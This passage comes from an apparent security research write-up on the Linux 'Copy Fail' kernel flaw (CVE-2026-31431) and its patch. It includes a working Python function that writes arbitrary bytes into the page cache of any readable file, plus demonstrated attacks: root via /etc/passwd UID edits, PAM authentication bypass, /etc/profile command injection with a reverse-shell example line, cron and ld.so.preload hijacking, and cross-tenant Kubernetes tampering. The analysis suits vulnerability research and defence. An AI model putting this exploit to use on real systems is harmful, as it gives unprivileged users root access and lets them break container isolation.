After decryption completes, `crypto_authenc_esn_decrypt_tail()` attempts to restore the data overwritten by the scratch write. But there is a critical detail: it first **reads** the current value at `dst[8+t]` (which is now the payload), then writes AAD[0:8] back to `dst[0:8]`. **The original value at `dst[8+t]` is never written back**.

Furthermore, the HMAC verification inevitably fails (because the data has been tampered with), and `recvmsg` returns `-EBADMSG`. But by this point, the page cache write has already occurred and cannot be rolled back. The exploit simply ignores this error.

### 3.4 Control Capability Analysis

**Write position**: Controlled by adjusting the length of `splice()` (= t + authsize = t + 4) to control t, which is the target file offset. Each invocation can target any arbitrary offset in the file.

**Write content**: Controlled via AAD[4:8] (4 bytes) sent through sendmsg, fully controllable.

**Write size**: Fixed at 4 bytes. This is not determined by `setsockopt(ALG_SET_AEAD_AUTHSIZE)` — authsize only affects the `cryptlen -= authsize` offset calculation. The 4 bytes comes from the hardcoded `sizeof(u32)` in authencesn (the size of the ESN high 32-bit sequence number). The number of bytes per write cannot be changed, but multiple invocations can overwrite contiguous regions of the file.

**Target file**: Any file that the current user has read permission on. The PoC opens the file with `O_RDONLY` — write permission is not needed because the write path does not go through VFS permission checks.

Summary:

```
Write target:    file page cache[t : t+4]
Write value:     AAD[4:8] sent via sendmsg (4 bytes, fully controllable)
Write size:      Fixed 4 bytes (hardcoded u32 in authencesn)
Trigger cond.:   assoclen=8, authsize=4, splice length=t+4
File permission: Only O_RDONLY needed, no write permission required
Root cause:      Tag pages chained at the tail of dst SGL are original page cache refs introduced by splice
```

### 3.5 Patch Analysis

The author of the fix patch [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5), Herbert Xu, wrote in the commit message:

> This mostly reverts commit 72548b093ee3 except for the copying of the associated data. There is no benefit in operating in-place in algif_aead since the source and destination come from different mappings.

The fix: **remove the in-place mode**, making `req->src` and `req->dst` point to separate SGLs again:

```c
// After fix: out-of-place
// src = TX SGL (contains page cache pages, but read-only)
// dst = RX SGL (pure user-space buffer)
aead_request_set_crypt(&areq->aead_req,
                       tsgl_src,   // req->src = TX SGL
                       rsgl_dst,   // req->dst = RX SGL (separate!)
                       used, ctx->iv);

// AAD is explicitly memcpy'd to the RX buffer
memcpy_sglist(rsgl_src, tsgl_src, ctx->aead_assoclen);
```

After the fix, `req->dst` contains only the user-space allocated RX buffer, with no page cache pages. The authencesn scratch write targets the user's own receive buffer — completely harmless.

The patch has a net deletion of approximately 92 lines of code: it removes the tag page chaining, the in-place branch, the offset parameter of `af_alg_pull_tsgl`, and all the complex logic added for in-place operation. The entire `sg_chain()` call is completely eliminated — there is no longer any possibility of page cache pages appearing in `req->dst`. (The full patch can be viewed on [GitHub](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5.patch).)

---

## 4. PoC Analysis and Dynamic Verification

### 4.1 Public PoC Structure

The public [Copy Fail PoC](https://xint.io/blog/copy-fail-linux-distributions) is a 732-byte heavily obfuscated Python script that nests the actual exploit code through base64 + zlib compression. After decoding, the core is a `page_cache_write_4bytes(fd, offset, value)` function that executes the vulnerability trigger path described above to write 4 bytes to the page cache of a specified file.

The complete exploitation flow of the PoC is:

1. Open a read-only fd to `/usr/bin/su` (a SUID root binary)
2. Call `page_cache_write_4bytes()` multiple times to overwrite the first 160 bytes of `/usr/bin/su`'s ELF header with a carefully crafted ELF payload (containing shellcode that spawns a root shell)
3. Execute the tampered `/usr/bin/su` → obtain a root shell

There is an interesting detail here: the PoC opens the target file with `O_RDONLY`. For regular VFS write operations, a read-only fd would be rejected by the kernel. But Copy Fail's write path does not go through VFS permission checks — it directly modifies page cache pages via the crypto subsystem's scratch write. This means **any readable file is a potential attack target**, including files mounted as readOnly.

### 4.2 Core Function Implementation

The deobfuscated core function (corresponding to the data flow in Section 3):

```python
AF_ALG = 38
SOL_ALG = 279
ASSOCLEN = 8    # AAD length
AUTHSIZE = 4    # auth tag size (also affects offset calculation)

def page_cache_write_4bytes(fd, offset, value):
    """Write value (4 bytes) to the page cache of the file pointed to by fd at [offset : offset+4]"""

    # Create AF_ALG socket, bind to authencesn(hmac(sha256),cbc(aes)) algorithm
    s = socket.socket(AF_ALG, socket.SOCK_SEQPACKET, 0)
    s.setsockopt(SOL_ALG, 2,  # ALG_SET_KEY: key (all zeros, content doesn't affect vulnerability trigger)
                 b'\x08\x00\x01\x00'    # rtattr header
                 b'\x00\x00\x00\x10'    # enckeylen=16 (AES-128)
                 + b'\x00' * 32)         # 16B authkey + 16B enckey
    s.setsockopt(SOL_ALG, 4, None, AUTHSIZE)  # ALG_SET_AEAD_AUTHSIZE = 4

    op = s.accept()[0]

    # Construct 8-byte AAD: first 4B zero padding, last 4B is the value to write to page cache
    # authencesn will write AAD[4:8] (= value) to dst[assoclen + cryptlen]
    aad = b'\x00' * 4 + value   # 8 bytes
    op.sendmsg([aad],
               [(SOL_ALG, 2, b'\x00' * 4),             # ALG_OP_DECRYPT
                (SOL_ALG, 3, b'\x10' + b'\x00' * 19),   # IV = 16B zero
                (SOL_ALG, 4, struct.pack('I', ASSOCLEN))], # assoclen = 8
               socket.MSG_MORE)

    # Splice [0, offset+4) of the target file into the AF_ALG socket
    # splice passes page cache page references (zero-copy)
    pr, pw = os.pipe()
    os.splice(fd, pw, offset + AUTHSIZE, offset_src=0)
    os.splice(pr, op.fileno(), offset + AUTHSIZE)

    try:
        op.recv(ASSOCLEN + offset)  # Trigger _aead_recvmsg → authencesn scratch write
    except OSError:
        pass  # HMAC verification fails with EBADMSG, but page cache write is already done
    op.close(); s.close(); os.close(pr); os.close(pw)
```

### 4.3 QEMU + GDB Kernel-Level Verification

To verify the complete vulnerability trigger path at the kernel level, a controlled debugging environment is needed: running a Linux 6.12.8 kernel with debug symbols in QEMU, setting breakpoints at key functions via GDB remote debugging, and capturing the complete execution chain.

> **💡 Lab Environment Code**
> All scripts and configuration files referenced in this section: [GitHub Gist — QEMU Debug Environment](https://gist.github.com/0xlane/a854338363e449bdb002b43ff5080e55)
> GDB breakpoint scripts: [GitHub Gist — GDB Scripts](https://gist.github.com/0xlane/0d565281d6a2ae05de2fc310a4a23a90)

#### 4.3.1 Setting Up the Debug Environment

The entire debug environment is built via Docker (to avoid configuring a cross-compilation toolchain on macOS), producing three files: the compressed kernel `bzImage`, debug symbols `vmlinux`, and an initramfs containing the PoC tools.

```bash
# Build kernel + busybox + PoC (via Docker, ~10 minutes)
docker build -t copyfail-build -f Dockerfile .
docker run --rm -v $(pwd)/output:/output copyfail-build

# Output:
#   output/bzImage        — compressed kernel (4.8M)
#   output/vmlinux        — with DWARF debug symbols (126M, for GDB)
#   output/rootfs.cpio.gz — initramfs (with busybox + poc_pagecache_write)
```

Key kernel configuration options (ensuring the crypto subsystem and debug symbols are complete):

```
CONFIG_CRYPTO_USER_API_AEAD=y    # AF_ALG AEAD interface
CONFIG_CRYPTO_AUTHENC=y          # authenc module
CONFIG_CRYPTO_SEQIV=y            # sequence number IV
CONFIG_DEBUG_INFO_DWARF5=y       # full debug symbols
CONFIG_GDB_SCRIPTS=y             # GDB helper scripts
CONFIG_KALLSYMS_ALL=y            # all kernel symbols visible
```

Starting the QEMU virtual machine:

```bash
# Normal startup (enters shell directly)
./run_qemu.sh

# Debug mode (QEMU paused, waiting for GDB connection on :1234)
./run_qemu.sh debug
```

Connect GDB from another terminal:

```bash
gdb ./vmlinux -ex 'target remote :1234' -ex 'continue'
```

#### 4.3.2 Experiment 1: Page Cache Write Verification

In the QEMU VM shell, execute the automated experiment script:

```bash
# === Execute inside VM ===

# 1. Create test file
echo "AABBCCDD EEFFGGHH IIJJKKLL MMNNOOPP" > /tmp/target.txt
hexdump -C /tmp/target.txt
# 00000000  41 41 42 42 43 43 44 44  20 45 45 46 46 47 47 48  |AABBCCDD EEFFGGH|
# 00000010  48 20 49 49 4a 4a 4b 4b  4c 4c 20 4d 4d 4e 4e 4f  |H IIJJKKLL MMNNO|
# 00000020  4f 50 50 0a                                        |OPP.|

# 2. First write: offset 0, value 0xDEADBEEF
poc_pagecache_write /tmp/target.txt 0 0xDEADBEEF
# [*] Target: /tmp/target.txt
# [*] Offset: 0 (0x0)
# [*] Value:  0xdeadbeef
# [*] Writing 4 bytes to page cache...
# [+] Done. Page cache of /tmp/target.txt at offset 0 should now contain 0xdeadbeef

# 3. Verify write result
hexdump -C /tmp/target.txt | head -2
# 00000000  ef be ad de 43 43 44 44  20 45 45 46 46 47 47 48  |....CCDD EEFFGGH|
#           ^^^^^^^^^^^
#           0xDEADBEEF (little-endian)

# 4. Second write: offset 8, value 0xCAFEBABE
poc_pagecache_write /tmp/target.txt 8 0xCAFEBABE

# 5. Verify both writes are independent
hexdump -C /tmp/target.txt | head -2
# 00000000  ef be ad de 43 43 44 44  be ba fe ca 46 47 47 48  |....CCDD....FGGH|
#                                    ^^^^^^^^^^^
#                                    0xCAFEBABE (little-endian)

# 6. drop_caches behavior verification (files on tmpfs will not revert)
echo 3 > /proc/sys/vm/drop_caches
hexdump -C /tmp/target.txt | head -2
# 00000000  ef be ad de 43 43 44 44  be ba fe ca 46 47 47 48  |....CCDD....FGGH|
# ↑ tmpfs: data exists only in page cache, drop_caches does not evict
# ↑ disk filesystem (ext4): drop_caches reloads original data from disk
```

**Conclusion**: The 4-byte page cache write primitive works, offset control is precise, and multiple writes do not interfere with each other.

#### 4.3.3 Experiment 2: GDB Evidence Chain — SGL Layout and Scratch Write

This is the most critical experiment: using GDB to observe `req->src == req->dst` at the `crypto_authenc_esn_decrypt` entry point (confirming in-place mode), and tracing the `scatterwalk_map_and_copy` write operation landing on a page cache page.

```bash
# === Terminal 1: Start QEMU (debug mode) ===
./run_qemu.sh debug
# === Debug mode: QEMU paused, waiting for GDB on localhost:1234 ===

# === Terminal 2: Connect GDB, load Python breakpoint script ===
gdb ./vmlinux -x exp3_2_gdb.py
# [GDB Script] Setting up breakpoints for Experiment 3.2+3.3...
# Breakpoint 1 at 0xffffffff812984f8: file crypto/authencesn.c, line 263.
# [GDB] BP1: crypto_authenc_esn_decrypt (entry)
# Breakpoint 2 at 0xffffffff8128f93e: file crypto/scatterwalk.c, line 57.
# [GDB] BP2: scatterwalk_map_and_copy (writes only)

(gdb) target remote :1234
(gdb) continue
```

Execute the PoC in the VM shell (`poc_pagecache_write /tmp/target.txt 0 0xDEADBEEF`), and GDB automatically captures the following output:

```
============================================================
=== crypto_authenc_esn_decrypt ENTRY ===
  req       = 0xffff888002d96a90
  req->src  = 0xffff888002d96820
  req->dst  = 0xffff888002d96820
  src == dst: YES (IN-PLACE!)          ← Root cause confirmed
  assoclen  = 8
  cryptlen  = 4 (before -= authsize)
============================================================
  --- dst SGL entries ---
  SGL[0]: page_link=0xffffea000006f440 offset=1760 length=8
  SGL[1]: page_link=0xffff8880027cbda1 offset=0 length=0 [CHAIN]
  SGL[2]: page_link=0xffffea000006f8c2 offset=0 length=4 [LAST]

=== [HIT 1] scatterwalk_map_and_copy WRITE ===
  buf=0xffffc90000113d20 sg=0xffff888002d96820 start=4 nbytes=4
  writing value: 0x41414141
  backtrace:
    #0 scatterwalk_map_and_copy
    #1 crypto_authenc_esn_decrypt      ← seqno_hi written to dst[4..7]
    #2 _aead_recvmsg
    #3 aead_recvmsg
    #4 sock_recvmsg_nosec
    #5 sock_recvmsg

=== [HIT 2] scatterwalk_map_and_copy WRITE ===
  buf=0xffffc90000113d24 sg=0xffff888002d96820 start=8 nbytes=4
  writing value: 0xdeadbeef            ← ★ SCRATCH WRITE: hits page cache!
  backtrace:
    #0 scatterwalk_map_and_copy
    #1 crypto_authenc_esn_decrypt      ← dst[assoclen+cryptlen] = dst[8+0] = page cache
    #2 _aead_recvmsg
    ...

=== [HIT 3] scatterwalk_map_and_copy WRITE ===
  buf=0xffffc90000113cc8 sg=0xffff888002d96820 start=0 nbytes=8
  writing value: 0x41414141
  backtrace:
    #0 scatterwalk_map_and_copy
    #1 crypto_authenc_esn_decrypt_tail ← ESN header restore (post-HMAC cleanup)
    ...
```

**Key interpretation of the GDB output**:

| Field | Meaning |
|-------|---------|
| `src == dst: YES` | Confirms in-place mode — the vulnerable behavior introduced by 72548b093ee3 |
| `SGL[1]: [CHAIN]` | `sg_chain()` linked tag pages to the RX SGL — the vulnerability's SGL construction |
| `SGL[2]: offset=0 length=4 [LAST]` | Tag page = file's page cache page (4 bytes at offset 0) |
| HIT 2: `value=0xdeadbeef start=8` | scratch write targets dst[8] — exactly the start of the chained tag page |

SGL layout verification complete. The call chain `recv()` → `_aead_recvmsg` → `crypto_authenc_esn_decrypt` → `scatterwalk_map_and_copy(WRITE)` → page cache has been fully captured.

#### 4.3.4 Experiment 3: Patched Kernel Comparison

In the same environment, replace with the 6.12.85 kernel patched with `a664bf3d603d` and repeat the experiment:

```bash
# Boot with the patched kernel
BZIMAGE=bzImage.patched VMLINUX=vmlinux.patched ./run_qemu.sh debug
```

GDB output comparison:

```
============================================================
=== crypto_authenc_esn_decrypt ENTRY ===
  req       = 0xffff888002dcea90
  req->src  = 0xffff888002e6d880
  req->dst  = 0xffff888002dce820
  src == dst: NO                       ← Fixed: out-of-place mode
  assoclen  = 8
  cryptlen  = 4 (before -= authsize)
============================================================
  --- dst SGL entries ---
  SGL[0]: page_link=0xffffea000006f582 offset=1760 length=8 [LAST]
                                                              ^^^^
  ↑ Only 1 entry, no CHAIN, no page cache page!

=== [HIT 1] scatterwalk_map_and_copy WRITE ===
  writing value: 0x41414141
  sg->page_link = 0xffffea000006f582   ← Writes to RX buffer (user-space), safe

=== [HIT 2] scatterwalk_map_and_copy WRITE ===
  writing value: 0xdeadbeef
  sg->page_link = 0xffffea000006f582   ← Also writes to RX buffer, no side effects
```

| Comparison | Vulnerable (6.12.8) | Patched (6.12.85) |
|------------|--------------------|--------------------|
| `src == dst` | YES (in-place) | NO (out-of-place) |
| dst SGL entries | 3 (with CHAIN + page cache page) | 1 (RX buffer only) |
| scratch write target | page cache page | RX buffer (harmless) |
| page cache after execution | **modified** | unmodified |

---
## 5. A Recurring Vulnerability Pattern: Page Cache Overwrite

Dirty Pipe from 2022, Copy Fail from 2026, and the closely following Dirty Frag share a clear vulnerability pattern: `splice()` zero-copy passes file page cache page references into a kernel subsystem, where a certain code path performs write operations on those references (pipe merge, crypto scratch write, in-place decrypt), resulting in corruption of the file's page cache. This pattern has recurred across three independent kernel subsystems:

| Vulnerability | Year | Mechanism | Write Determinism | Page Cache Only |
|------|------|------|:----------:|:----------:|
| [Dirty Pipe](https://dirtypipe.cm4all.com/) (CVE-2022-0847) | 2022 | `pipe` flag initialization flaw + `splice` | ✅ | ✅ |
| **Copy Fail** (CVE-2026-31431) | 2026 | `AF_ALG` in-place optimization + `splice` | ✅ | ✅ |
| [Dirty Frag](https://dirtyfrag.io/) (CVE-2026-43284/43500) | 2026 | `xfrm-ESP`/`RxRPC` in-place decryption + `splice` | ✅ | ✅ |

The three have completely different trigger paths but share the same core outcome: the kernel code path bypasses VFS write permission checks and directly modifies file page cache contents through page references injected via splice. Since the modification doesn't go through the VFS write path, pages are not marked as dirty, and the original file on disk is unaffected — the corruption exists only in the in-memory page cache and recovers after a reboot or `drop_caches`.



The earlier [Dirty COW](https://dirtycow.ninja/) (CVE-2016-5195, 2016) achieved a similar result — unauthorized modification of file data — through a completely different mechanism (`mmap` COW race condition + GUP). However, Dirty COW does not involve splice or in-place operations; after a successful race, the modification is written back to disk via page writeback (setting PG_dirty), making it a different class of vulnerability.

Since the primitives are equivalent, the exploitation surface is naturally the same. The following uses Copy Fail as an example to demonstrate the attack surfaces beyond SUID files for the primitive of "4-byte controlled write to the page cache of any readable file" — all paths below have been experimentally confirmed on CentOS Stream 8 (unpatched kernel 4.18.0-553), and the conclusions generalize to all page cache overwrite vulnerabilities of this class.

> **💡 Experiment Code**
> All PoC scripts referenced in this section: [GitHub — pagecache-guard/poc/host-attacks](https://github.com/0xlane/pagecache-guard/tree/main/poc/host-attacks)

### 5.1 /etc/passwd UID Tampering

`/etc/passwd` has permissions of 0644 (world-readable) on all Linux distributions, making it a natural target for this class of vulnerability exploitation.

Principle: Change the target user's UID field from `1000` to `0000` — only modifying a single ASCII character. Linux determines user identity via UID, and UID 0 means root.

```bash
# Before: testuser123:x:1000:1000::/home/testuser123:/bin/bash
python3 exp_passwd_uid.py testuser123
# [+] SUCCESS: UID changed to 0000 in page cache

id testuser123
# uid=0(root) gid=0(root) groups=0(root)

su - testuser123
# whoami → root
# Can read /etc/shadow ✅

# Restore
echo 3 > /proc/sys/vm/drop_caches
```

A single 4-byte write is sufficient for privilege escalation. No shellcode, no ELF structure knowledge needed — universal across all distributions. The modification does not set `PG_dirty`; `drop_caches` restores it.

### 5.2 PAM Authentication Bypass

`pam_unix.so` is the standard Linux password authentication module, typically with permissions of 0644.

Principle: Modify the password verification logic in the `pam_sm_authenticate` function of `pam_unix.so` — replace the return value save instruction `mov %eax,%ebp` (89 c5) with `xor %ebp,%ebp` (31 ed), forcing a return of `PAM_SUCCESS` (0):

```x86asm
; Save return value after password verification
0x3d5e:  89 c5           mov  %eax, %ebp    ; Original: save real verification result
; Modified to:
0x3d5e:  31 ed           xor  %ebp, %ebp    ; Tampered: force zero = PAM_SUCCESS
```

```bash
python3 exp_pam_bypass.py
# [*] Auto-detected patch offset: 0x3d5e
# [*] Patching to: 31ede95e (xor %ebp,%ebp)
# [+] SUCCESS: pam_unix.so patched in page cache

su root
# Password: (enter anything)
# whoami → root ✅
```

**Special persistence**: Processes like `sshd`, `login`, and `sd-pam` have loaded `pam_unix.so` via `mmap(MAP_PRIVATE)`. These mmap references prevent `drop_caches` from evicting the tampered pages — the kernel detects `page_mapped()` as true in `invalidate_inode_page()` and skips eviction. The modification persists until all mapping processes exit or the file inode is replaced (`yum reinstall pam`).

### 5.3 Shared Library Live-Patching

Linux loads `.so` shared libraries via `mmap(MAP_PRIVATE)`, and all processes using the same library share the same set of page cache physical pages. Modifying a `.so`'s page cache is **equivalent to** modifying the code or data segments of all running processes that have loaded that library — the x86 cache coherency protocol ensures that writes are immediately visible to instruction and data fetches across all cores.

The experiment was validated on `libnss_files.so` (the system NSS name resolution library, 0644), using a **continuously running** monitor process to observe the modification effects:

```bash
# Step 1: Start a monitor process that continuously reads the string from the mmap mapping
gcc -o monitor exp_shared_lib_monitor.c -ldl
./monitor &
# [monitor] PID=161045
# [monitor] initial: "/etc/hosts"
# [monitor] tick 1: no change
# [monitor] tick 2: no change

# Step 2: Tamper with the .so's page cache (in another terminal)
python3 exp_shared_lib.py
# [+] SUCCESS: '/etc/hosts' → '/etc/h0sts' in page cache

# Step 3: Monitor process detects the change without restart
# [monitor] tick 3: *** STRING CHANGED ***
# [monitor] now: "/etc/h0sts"
# [monitor] *** LIVE-PATCH CONFIRMED (no restart) ***
```

Key evidence: The monitor process PID=161045 **never restarted** from start to finish. It read the original value at ticks 1-2, then **immediately** saw the modification at tick 3 after the PoC executed.

On CentOS 8, 20+ system daemons (sshd, crond, dockerd, dbus-daemon, etc.) hold mmap references to `libnss_files.so`, making `drop_caches` unable to evict them — the modification persists semi-permanently during system runtime, requiring `yum reinstall glibc-common` to restore.

> **⚠️ Risk**
> While modifying the code segment of core system libraries (such as `libc.so`) could theoretically achieve arbitrary code execution (all root daemons calling the target function are immediately affected), it carries an extremely high risk of system crashes. The above experiment only modified a string in the `.rodata` segment as a safe validation.

### 5.4 /etc/profile Command Injection

`/etc/profile` is 0644 on all Linux distributions and is automatically sourced by every login shell (SSH login, `su -`, console login).

Principle: Use the `#` in comment lines as cover — overwrite the comment text with a command, while the original text is commented out by `#`, leaving the rest of the file unaffected:

```
# Original: # It's NOT a good idea to change this file unless you know what you
# Injected: id>>/tmp/CF-PWNED  #ea to change this file unless you know what you
#           ↑ command portion     ↑ '#' comments out remaining text, no impact on subsequent lines
```

```bash
python3 exp_profile_inject.py "id>>/tmp/CF-PWNED  #"
# [*] Payload: 20 bytes, 5 writes
# [+] SUCCESS: command injected into /etc/profile

# Trigger: root executes login shell
su - root -c "echo triggered"

cat /tmp/CF-PWNED
# uid=0(root) gid=0(root) groups=0(root) ✅
```

Only 5 writes (20 bytes) are needed to complete the injection. Highly universal — all distributions have `/etc/profile` and it contains comment lines. In real attack scenarios, one could inject a reverse shell (`bash -i>&/dev/tcp/IP/PORT 0>&1 #`) or a backdoor user creation command (`useradd -o -u0 backdoor #`).

### 5.5 Cron Job Script Tampering

Scripts or binaries referenced by cron scheduled tasks and systemd services (typically 0755, world-readable) are completely passive exploitation targets — the attacker tampers with them and simply waits for the daemon's next scheduled execution.

```bash
# Environment setup: cron job executes /tmp/copyfail-lab/cron_target.sh every minute
# Script contents: echo "ORIGINAL $(date +%s)" >> cron.log

# Tamper with the script's page cache
python3 exp_cron_script.py /tmp/copyfail-lab/cron_target.sh
# [+] SUCCESS: script tampered in page cache ("ORIGINAL" → "HIJACKED")

# Next cron trigger (≤ 1 minute):
tail /tmp/copyfail-lab/cron.log
# HIJACKED 1778309461   ← crond executed the tampered script ✅
```

crond re-reads the script file contents on each trigger, naturally picking up the tampered data from the page cache. The same applies to service scripts referenced by systemd.

> **ℹ️ Configuration Files vs Script Files**
> Directly modifying the page cache of cron **configuration files** (`/etc/cron.d/`) or systemd **unit files** (`.service`) was also verified as technically feasible in experiments, but is **not viable in practice**: cronie uses inotify to detect configuration changes — page cache modifications do not trigger inotify, requiring a `crond` restart to read the changes; systemd unit file modifications similarly require `systemctl daemon-reload` or service restart to take effect. Low-privilege attackers cannot control these daemon operations. Therefore, viable attack paths are limited to tampering with **scripts/binaries referenced by existing tasks**.

### 5.6 /etc/ld.so.preload Path Hijacking

Shared libraries listed in `/etc/ld.so.preload` are **loaded first** by the dynamic linker at every program startup. Modifying a library path within it enables global code injection.

```bash
# Prerequisite: system already has /etc/ld.so.preload (e.g., for performance monitoring)
cat /etc/ld.so.preload
# /tmp/copyfail-lab/libmarker.so

python3 exp_preload_hijack.py
# [+] SUCCESS: preload path hijacked
# /tmp/copyfail-lab/libmarker.so → /tmp/copyfail-lab/libevil00.so

ls /dev/null
# [preload] EVIL LIBRARY LOADED!   ← Malicious library loaded by every new process
# /dev/null
```

**Prerequisite**: The target system must already have `/etc/ld.so.preload` (Copy Fail cannot create new files, only modify the page cache of existing files). This file does not exist by default, but is commonly present in scenarios involving jemalloc preloading, LD_PRELOAD security agents, performance monitoring, etc.

---

## 6. Deep Dive into Container Scenarios

The previous sections outlined multiple privilege escalation paths for page cache overwrites on the host. But in containerized infrastructure, the threat goes even further: **Page Cache is a globally shared state that crosses container isolation boundaries**. After the vulnerability disclosure, multiple security teams quickly focused on container/K8s scenarios: [Juliet](https://juliet.sh/blog/we-tested-copy-fail-in-kubernetes-pss-restricted-runtime-default-af-alg) verified that PSS Restricted and RuntimeDefault do not block AF_ALG, [Stream Security](https://www.stream.security/post/cve-2026-31431-how-copy-fail-behaves-in-kubernetes) completed end-to-end validation on production-grade EKS clusters, and [Percivalll](https://github.com/Percivalll/Copy-Fail-CVE-2026-31431-Kubernetes-PoC) provided a complete PoC for Pod→Node escape by tampering with shared layers of privileged DaemonSets (verified on ACK / EKS / GKE). This section builds upon these works, further verifying and extending the attack feasibility boundaries in container scenarios through independent experiments.

All conclusions have been experimentally verified on a real Kubernetes cluster ([k3s](https://k3s.io/) v1.32 + containerd v2.0.5, CentOS Stream 8 unpatched kernel 4.18.0-553).

> **💡 Container Experiment Code**
> Pod YAMLs, PoC scripts, and verification tools referenced in this section: [GitHub Gist — Container Experiments](https://gist.github.com/0xlane/d89e230c9e18bfd8cc126452352afae6)

### 6.1 Image Layer Sharing: Cross-Container Page Cache Propagation

Container runtimes (containerd, Docker) use overlayfs to manage container filesystems. For the same base image (e.g., `python:3.11-slim`), its image layers are stored only once on the host. All containers using that image have their lower layers pointing to the same set of inodes.

This means: when container A reads `/usr/bin/python3` via `read()`, the kernel creates a page cache entry for that inode; when container B subsequently reads the same file, it hits the exact same page cache pages.

An important prerequisite to emphasize: **page cache is a kernel-level global cache, but its scope is per-node** — only containers located on the same node can share the same set of inodes through overlayfs layers, and thus share page cache. Containers across different nodes have independent page caches even if they use the exact same image. This "same-node" restriction is the fundamental prerequisite for all subsequent cross-container attack scenarios.



#### Experimental Verification: Cross-Container Page Cache Sharing

Deploy the experimental environment and verify inode sharing:

```bash
# Deploy two Pods using the same base image
kubectl create ns copyfail-lab
kubectl apply -f pod-cross-tenant.yaml    # See Gist

# Verify that both Pods share the same /etc/os-release inode
kubectl exec -n copyfail-lab pod-attacker -- stat -c '%i' /etc/os-release
# 208483846
kubectl exec -n copyfail-lab pod-victim-same -- stat -c '%i' /etc/os-release
# 208483846    ← Same inode = shared page cache
```

Execute page cache write in the attacker Pod:

```bash
# Execute PoC in the attacker Pod
kubectl exec -n copyfail-lab pod-attacker -- python3 /poc_marker.py /etc/os-release
# [*] Target: /etc/os-release
# [*] Before: 50524554
# [*] After:  deadbeef
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# Victim Pod (same base image) — immediately sees the tampered content
kubectl exec -n copyfail-lab pod-victim-same -- \
  python3 -c "import os; print(os.pread(os.open('/etc/os-release',0),16,0).hex())"
# deadbeef54595f4e414d453d22446562
# [+] MARKER FOUND: page cache is SHARED with attacker pod!

# Control group (different base image) — unaffected
kubectl exec -n copyfail-lab pod-victim-alpine -- head -c 16 /etc/os-release | xxd
# 00000000: 4e41 4d45 3d22 416c 7069 6e65  NAME="Alpine
```

Reading the corresponding file from the containerd snapshot directory directly on the host also shows the tampered data:

```bash
# Host reads the snapshot layer file
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# drop_caches restores
echo 3 > /proc/sys/vm/drop_caches
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb
```

### 6.2 Zero-Privilege Cross-Tenant Attack



Based on the sharing mechanism described above, we verify a **zero-privilege cross-tenant attack** — where the attacker and victim are in completely isolated, different namespaces:

```bash
# Create two completely isolated namespaces
kubectl create ns copyfail-lab      # Attacker
kubectl create ns tenant-victim     # Victim

# Deploy Pods (see Gist: pod-cross-tenant.yaml)
kubectl apply -f pod-cross-tenant.yaml
```

**Prerequisite verification — confirm inode sharing**:

```bash
# Two Pods in different namespaces, same base image → same inode
kubectl exec -n copyfail-lab pod-attacker -- stat -c '%i' /bin/cat
# 1420102
kubectl exec -n tenant-victim victim-app -- stat -c '%i' /bin/cat
# 1420102    ← Same! Even across different namespaces
```

**Attack execution**:

```bash
# Step 1: Confirm victim's /bin/cat is normal
kubectl exec -n tenant-victim victim-app -- \
  python3 -c "import os; print(os.pread(os.open('/bin/cat',0),16,0).hex())"
# 7f454c46020101000000000000000000  (normal ELF header)

# Step 2: Attacker executes Copy Fail (without any privileges!)
kubectl exec -n copyfail-lab pod-attacker -- python3 /poc_marker.py /bin/cat
# [*] Before: 7f454c46
# [*] After:  deadbeef
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# Step 3: Victim is immediately affected
kubectl exec -n tenant-victim victim-app -- \
  python3 -c "import os; print(os.pread(os.open('/bin/cat',0),16,0).hex())"
# deadbeef020101000000000000000000
# ↑ ELF magic corrupted!

# Step 4: Victim service disrupted
kubectl exec -n tenant-victim victim-app -- cat /etc/hostname
# exec /usr/bin/cat: exec format error    ← Binary cannot execute

# Step 5: Recovery (executed on host)
echo 3 > /proc/sys/vm/drop_caches
kubectl exec -n tenant-victim victim-app -- cat /etc/hostname
# victim-app    ← Restored to normal
```

**Key conclusion**: This attack requires no special capabilities, hostPath mounts, or relaxed security configurations. The only prerequisite is an unpatched kernel and the ability to execute Python (or an equivalent C program) in the container. The two Pods need no network connectivity and do not need to know each other's IP or name.

The above experiment tampered with files in a regular user Pod, limiting the impact to "cross-tenant DoS." But a natural question arises: **Can we achieve container escape through the same method — gaining node-level control from a zero-privilege Pod?**

The key to the answer lies in target selection. Revisiting the analysis from Section 6.1, page cache tampering has two prerequisites: ① the attacker and target container are on the same node; ② they share at least one image layer. If the target container runs with `privileged: true`, then when the tampered binary executes within it, the attacker's payload has full node-level privileges.

What kind of privileged containers easily satisfy both "privileged" and "same-node" conditions? **DaemonSet** is a natural candidate. By definition, a DaemonSet runs one Pod replica on every node in the cluster — regardless of which node the compromised Pod is scheduled to, a DaemonSet instance is guaranteed to exist on that node. And Kubernetes clusters have quite a few system-level DaemonSets running with `privileged: true` (such as kube-proxy, CNI plugins, log collectors, etc.), which satisfy both conditions.

I suspect [Percivalll](https://github.com/Percivalll/Copy-Fail-CVE-2026-31431-Kubernetes-PoC) chose kube-proxy as the attack target based on similar reasoning. kube-proxy runs as a `privileged: true` DaemonSet in managed clusters from major cloud providers (Alibaba Cloud ACK, Amazon EKS, Google GKE), satisfying all the above conditions. Their PoC achieves node code execution by tampering with the page cache of the `ipset` binary in the kube-proxy container, triggered when kube-proxy next invokes that tool (verified on all three cloud platforms). To simplify the verification process, the PoC builds the attacker image as `FROM registry.k8s.io/kube-proxy:v1.35.2`, ensuring deterministic sharing of the image layer containing `ipset` with kube-proxy.

#### Finding Exploitation Targets: Layer Sharing Analysis on the Node

The `FROM` target image approach in the PoC is designed for deterministic reproduction of the exploit. To assess the exposure surface in real environments — i.e., whether an ordinary business Pod naturally shares image layers with privileged DaemonSets on the same node — the following analysis can be performed on the node:

```bash
# 1. List all privileged containers and their images on the node
crictl ps -o json | jq -r '.containers[] | "\(.id) \(.image.image) \(.metadata.name)"'

# 2. Compare layer digests between the business Pod image and target DaemonSet image
MY_IMAGE="python:3.11-slim"
